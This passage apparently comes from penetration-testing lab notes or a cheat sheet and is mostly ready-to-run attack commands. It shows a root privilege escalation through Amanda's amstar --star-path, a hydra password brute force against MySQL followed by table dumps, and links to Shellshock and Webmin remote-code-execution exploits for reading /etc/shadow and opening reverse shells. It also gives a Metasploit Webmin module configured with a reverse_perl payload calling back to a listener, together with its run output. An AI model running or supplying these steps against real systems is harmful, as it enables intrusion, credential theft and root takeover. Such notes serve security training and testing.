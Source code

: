 ```
ls -al /usr/lib/amanda
echo '#!/bin/sh
> /bin/sh' > priv.sh
chmod +x priv.sh
/usr/lib/amanada/application/amstar restore --star-path=/tmp/priv.sh
$ whoami
root
```

#### mysql Brute Force

* mysql 3306 running on the target

```
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://10.16.1.11
mysql -u root 10.16.1.11 -p
SHOW DATABASES;
SHOW TABLES FROM helpdesk;
USE helpdesk;
SELECT * FROM ost_form_entry;
```

### IP Fire 2.15

* Brute the admin default \[admin:admin]
* https://github.com/0xskunk/IPFire-2.15-Shellshock-Exploit/blob/master/SIPS.py

### Webmin 1.8.90

* MiniServ 1.890 (Webmin httpd)
* https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE/blob/master/webmin-1.890\_exploit.py
* Read /etc/shadow
* Add user
* Reverse Shells
* Read the config files
* Will run as root

### Webmin 1.900&#x20;

* MiniServ 1.900 (Webmin httpd)
* Requires credentials in order to exploit
* can use a metasploit module once credentials are obtained&#x20;

```
exploit/linux/http/webmin_packageup_rce
PASSWORD   Password6543     yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.1.17      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using
                                         -metasploit.html
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME   admin            yes       Webmin Username

cmd/unix/reverse_perl
LHOST  10.10.14.2       yes       The listen address (an interface may be specified)
   LPORT  8888             yes       The listen port

run

[*] Started reverse TCP handler on 10.10.14.2:8888 
[+] Session cookie: bda1415ad657230f23aac213aa96a878
[*] Attempting to execute the payload...
```